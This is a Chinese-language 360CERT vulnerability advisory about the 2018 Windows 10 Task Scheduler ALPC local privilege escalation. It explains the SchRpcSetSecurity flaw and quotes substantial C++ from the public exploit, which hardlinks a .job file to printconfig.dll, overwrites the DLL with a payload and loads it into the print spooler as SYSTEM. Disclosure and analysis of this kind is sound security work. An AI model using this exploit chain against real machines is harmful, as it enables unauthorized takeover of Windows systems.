 > 原文链接: https://www.anquanke.com//post/id/158293 


# 漏洞预警 | Windows 10本地提权0day预警


                                阅读量   
                                **266017**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                    



[![](https://p4.ssl.qhimg.com/t014a95fa5d3bfafefb.jpg)](https://p4.ssl.qhimg.com/t014a95fa5d3bfafefb.jpg)

## 0x00 漏洞背景

win10中任务调度服务导出的函数没有验证调用者的权限，任意权限的用户调用该函数可以获取系统敏感文件的写权限，进而提权。



## 0x01 漏洞影响

漏洞影响win10和windows server 2016。目前发布的EXP暂时只能用于x64系统。



## 0x02 漏洞详情

win10系统Task Scheduler任务调度服务中ALPC调用接口导出了SchRpcSetSecurity函数，该函数能够对一个任务或者文件夹设置安全描述符。

```
HRESULT SchRpcSetSecurity(
   [in, string] const wchar_t* path,
   [in, string] const wchar_t* sddl,
   [in] DWORD flags
 );
```

该服务是通过svchost的服务组netsvcs所启动的，对应的dll是schedsvc.dll。

[![](https://p403.ssl.qhimgs4.com/t017b0987036d55e326.png)](https://p403.ssl.qhimgs4.com/t017b0987036d55e326.png)

[![](https://p403.ssl.qhimgs4.com/t018ae12ad1bdb01f38.png)](https://p403.ssl.qhimgs4.com/t018ae12ad1bdb01f38.png)

[![](https://p403.ssl.qhimgs4.com/t015deed4a3b2679771.png)](https://p403.ssl.qhimgs4.com/t015deed4a3b2679771.png)

在xp系统中，任务存放在C:\Windows\Tasks目录，后缀为.job；而win7及以后的版本任务以xml的格式存放在C:\Windows\System32\Tasks目录。

[![](https://p403.ssl.qhimgs4.com/t012463785a6b70df71.png)](https://p403.ssl.qhimgs4.com/t012463785a6b70df71.png)

可能是为了兼容的考虑，SchRpcSetSecurity函数在win10中仍然会检测C:\Windows\Tasks目录下是否存在后缀为.job的文件，如果存在则会写入DACL数据。如果将job文件硬链接到特定的dll那么特定的dll就会被写入DACL数据，本来普通用户对特定的dll只具有读权限，这样就具有了写权限，接下来向dll写入漏洞利用代码并启动相应的程序就获得了提权。

那么首先需要找到一个普通用户具有读权限而系统具有写入DACL权限的dll，EXP中用的是C:\Windows\System32\DriverStore\FileRepository\prnms003.inf_amd64_4592475aca2acf83\Amd64\printconfig.dll，然后将C:\Windows\Tasks\UpdateTask.job硬链接到这个dll。

```
WIN32_FIND_DATA FindFileData;
    HANDLE hFind;
    hFind = FindFirstFile(L"C:\\Windows\\System32\\DriverStore\\FileRepository\\prnms003.inf_amd64*", &amp;FindFileData);
    wchar_t BeginPath[MAX_PATH] = L"c:\\windows\\system32\\DriverStore\\FileRepository\\";
    wchar_t PrinterDriverFolder[MAX_PATH];
    wchar_t EndPath[23] = L"\\Amd64\\PrintConfig.dll";
    wmemcpy(PrinterDriverFolder, FindFileData.cFileName, wcslen(FindFileData.cFileName));
    FindClose(hFind);
    wcscat(BeginPath, PrinterDriverFolder);
    wcscat(BeginPath, EndPath);

    //Create a hardlink with UpdateTask.job to our target, this is the file the task scheduler will write the DACL of
    CreateNativeHardlink(L"c:\\windows\\tasks\\UpdateTask.job", BeginPath);
```

在调用SchRpcSetSecurity函数使普通用户成功获取了对该dll写入的权限之后写入资源文件中的exploit.dll。

```
//Must be name of final DLL.. might be better ways to grab the handle
    HMODULE mod = GetModuleHandle(L"ALPC-TaskSched-LPE");

    //Payload is included as a resource, you need to modify this resource accordingly.
    HRSRC myResource = ::FindResource(mod, MAKEINTRESOURCE(IDR_RCDATA1), RT_RCDATA);
    unsigned int myResourceSize = ::SizeofResource(mod, myResource);
    HGLOBAL myResourceData = ::LoadResource(mod, myResource);
    void* pMyBinaryData = ::LockResource(myResourceData);

    //We try to open the DLL in a loop, it could already be loaded somewhere.. if thats the case, it will throw a sharing violation and we should not continue
    HANDLE hFile;
    DWORD dwBytesWritten = 0;
    do `{`
        hFile = CreateFile(BeginPath,GENERIC_WRITE,0,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);                  
        WriteFile(hFile,(char*)pMyBinaryData,myResourceSize,&amp;dwBytesWritten,NULL);           
        if (hFile == INVALID_HANDLE_VALUE)
        `{`
            Sleep(5000);
        `}`
    `}` while (hFile == INVALID_HANDLE_VALUE);
    CloseHandle(hFile);
```

printconfig.dll和系统打印相关，并且没有被print spooler服务默认启动。所以随后调用StartXpsPrintJob开始一个XPS打印。

```
//After writing PrintConfig.dll we start an XpsPrintJob to load the dll into the print spooler service.
    CoInitialize(nullptr);
    IXpsOMObjectFactory *xpsFactory = NULL;
    CoCreateInstance(__uuidof(XpsOMObjectFactory), NULL, CLSCTX_INPROC_SERVER, __uuidof(IXpsOMObjectFactory), reinterpret_cast&lt;LPVOID*&gt;(&amp;xpsFactory));
    HANDLE completionEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    IXpsPrintJob *job = NULL;
    IXpsPrintJobStream *jobStream = NULL;
    StartXpsPrintJob(L"Microsoft XPS Document Writer", L"Print Job 1", NULL, NULL, completionEvent, NULL, 0, &amp;job, &amp;jobStream, NULL);
    jobStream-&gt;Close();
    CoUninitialize();
    return 0;
```

整个漏洞利用程序编译出来是个dll，把它注入到notepad中运行，发现spoolsv.exe创建的notepad已经具有SYSTEM权限，而系统中的printconfig.dll也被修改成了资源文件中的exploit.dll。

[![](https://p403.ssl.qhimgs4.com/t01803853bace9f67ea.jpeg)](https://p403.ssl.qhimgs4.com/t01803853bace9f67ea.jpeg)

[![](https://p403.ssl.qhimgs4.com/t0141ce518b48e313e3.png)](https://p403.ssl.qhimgs4.com/t0141ce518b48e313e3.png)



## 0x03 防御措施

建议用户安装360安全卫士等终端防御软件拦截利用此类漏洞的攻击，不要打开来源不明的程序。



## 0x04 时间线

2018-08-27 漏洞详情公开披露

2018-08-29 360CERT发布漏洞预警



## 0x05 参考链接

1.[https://github.com/SandboxEscaper/randomrepo](https://github.com/SandboxEscaper/randomrepo)

2.[https://msdn.microsoft.com/en-us/library/cc248452.aspx](https://msdn.microsoft.com/en-us/library/cc248452.aspx)
